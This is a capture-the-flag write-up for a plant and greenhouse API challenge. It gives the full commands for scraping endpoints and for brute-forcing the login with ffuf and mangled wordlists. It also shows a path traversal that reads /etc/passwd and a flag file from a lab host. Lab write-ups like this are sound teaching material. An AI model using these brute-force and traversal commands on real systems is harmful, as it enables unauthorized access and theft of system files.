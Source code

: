 # Visiting the site

It is an API documentation with a couple of endpoints and their parameters documented.

![](screenshots/1.png)

The raw form for it can be found in [apispec_1.json](workdir/apispec_1.json).

# API

There are some plant and some greenhouse related endpoints, most of the require no authentication. 

Listing the log files with `/greenhouse/logs/list` requires no authentication, but reading any actual logs does.

The `/plants` and `/plants/search` endpoints returns a limited `PlantSummary` object. Getting the random plant with `​/plants​/random` returns a full `Plant` object with slightly more info.

The `/plants/{plant_id}/habitat` returns a `Habitat` object and the `/plants/{plant_id}/hcareabitat` returns a `CareInstructions` one.

The `/flag` endpoint also requires the authentication token and 2 keys.

# Climate

Most of the information is simple text or number. The one exception is the `climate` inside the `Habitat`.

```json
{"climate":"VFdWa2FYUmxjbkpoYm1WaGJnPT0=","soil_ph":4.7,"typical_regions":["Himalayas"]}
```

It is base64 encoded twice. The one above decodes to `Mediterranean`.

# Scraping

The list of logs can be queried by visited the endpoints, [logs.json](workdir/logs.json).

Checking the search without filtering anything or the paginated plants endpoint gives us that there are 10000 entries in the database.

Scraping them from various endpoints is doable. The random one can return the same multiple times, so we run this for a while.

```bash
for i in {1..10000}; do curl -s -X GET "http://10.10.100.113:36700/plants/$i/habitat" -H  "accept: application/json" > habitat/$i.json; done
for i in {1..10000}; do curl -s -X GET "http://10.10.100.113:36700/plants/$i/care" -H  "accept: application/json" > care/$i.json; done
while [ "$(ls -1 plants_random | wc -l)" -lt 10000 ]; do sh -c 'X=$(curl -s -X GET "http://10.10.100.113:36700/plants/random" -H  "accept: application/json"); Y=$(echo $X | jq -r .id); echo $X > plants_random/$Y.json'; done
```

Decoding all the climate.

```bash
(for file in habitat/*; do cat $file | jq -r .climate | base64 -d | base64 -d; echo ; done) > climate.txt
```

# Outlier

There is special value amongst the climates.

```bash
sort -u climate.txt
```
```
Arid
Cool temperate
Dry
Highland
Humid subtropical
Humid tropical
key{1f_y0u_cut_0n3_tr33}
Mediterranean
Mild
Monsoon
Temperate
Tropical
Warm
```

This gives us one of the keys for the flag endpoint.

# Auth

Building a [wordlist](https://github.com/danielmiessler/SecLists/tree/master/Usernames) from male and female names, converting them lowercase, then fuzzing the auth endpoint with it as both user and password reveals the valid username, `susan`.

```bash
cat wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt | tr A-Z a-z  > names.txt
ffuf -fc 401 -X POST -H "accept: application/json" -H "Content-Type: application/json" -u http://10.10.100.113:36700/auth -d '{"username":"FUZZ","password":"FUZZ"}' -w ./names.txt
```

![](screenshots/2.png)

It only works halfway, the reply is the following.

```
{"message":"Password Reminder for susan: the user naturelover"}
```

Using the word `naturelover`, a password list can be crafted and another fuzzing for password can be done.

```bash
echo "naturelover" > pass.txt
rsmangler --file pass.txt --min 6 --max 15 > pass_mangled.txt
ffuf -fs 64 -X POST -H "accept: application/json" -H "Content-Type: application/json" -u http://10.10.100.113:36700/auth -d '{"username":"susan","password":"FUZZ"}' -w ./pass_mangled.txt
```

![](screenshots/3.png)

The basic variant was the password, there would have been no need for fuzzing. Authenticating reveals a secure admin token.

```bash
curl -X POST "http://10.10.100.113:36700/auth" -H  "accept: application/json" -H  "Content-Type: application/json" -d '{"username": "susan", "password": "naturelover"}'
```
```
{"message":"Login successful","x_admin_token":"admin123"}
```

# Logs

Scraping all the logs is possible now.

```bash
curl -s -X GET "http://10.10.100.113:36700/greenhouse/logs/list" -H  "accept: application/json" | jq -r .log_files[] | while IFS= read -r line; do curl -s -X GET "http://10.10.100.113:36700/greenhouse/logs?file=$line" -H  "accept: application/json" -H  "X-Admin-Token: admin123" -o logs/$line ; done
```

There is nothing interesting in the logs though.

# Path traversal

Almost any file can be read, not just the ones listed in the logs folder.

```bash
curl -s -G "http://10.10.100.113:36700/greenhouse/logs" -H  "accept: application/json" -H  "X-Admin-Token: admin123" --data-urlencode "file=.
./../etc/passwd" | jq
```

![](screenshots/4.png)

Some files are forbidden though, the source files for example, or other files in `/root`.

Reading the `/proc/self` for command line or environments reveal nothing.

After one too many guesses, the next key is in `../flag.txt`: `key{y0u_ar3_in_th3_gr33nh0us3}`.

![](screenshots/5.png)

# Flag exchange

Exchanging the keys for the flags is trivial now.

```bash
curl -s -X POST "http://10.10.100.113:36700/flag" -H  "accept: application/json" -H  "Content-Type: application/json" -H  "X-Admin-Token: admin123" --data-raw '{  "key1": "key{1f_y0u_cut_0n3_tr33}",  "key2": "key{y0u_ar3_in_th3_gr33nh0us3}"}' | jq
```

![](screenshots/6.png)

# Flag
`CQ25{pl4nt_tw0_m0re_tr33_instead_0f_0ne}`